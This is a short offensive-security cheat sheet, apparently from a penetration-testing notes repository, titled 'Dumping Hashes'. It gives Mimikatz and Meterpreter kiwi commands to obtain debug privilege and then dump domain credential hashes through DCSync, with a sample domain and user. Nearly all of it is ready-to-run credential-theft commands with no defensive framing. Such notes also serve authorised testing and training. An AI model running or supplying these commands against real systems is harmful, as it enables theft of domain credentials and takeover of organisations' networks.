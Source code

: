 # Dumping Hashes

Use Mimikatz to dump local and domain plaintext credentials and hashes.

## Ensure you have administrative privileges

On a **Mimikatz prompt**:

```powershell
mimikatz: privilege::debug
```

On **Meterpreter**:

```bash
meterpreter > use kiwi
meterpreter > kiwi_cmd privilege::debug
```

If the output is **Privilege '20' OK**, you're good to move forward.

## Dump Domain Hashes

On a **Mimikatz prompt**:

```powershell
mimikatz: lsadump::dcsync /domain:{domain name} /all # HYDRA.test
```

On **Meterpreter**:

```bash
meterpreter > use kiwi
meterpreter > dcsync_ntlm {domain user} # HYDRA\\grant.ward
```
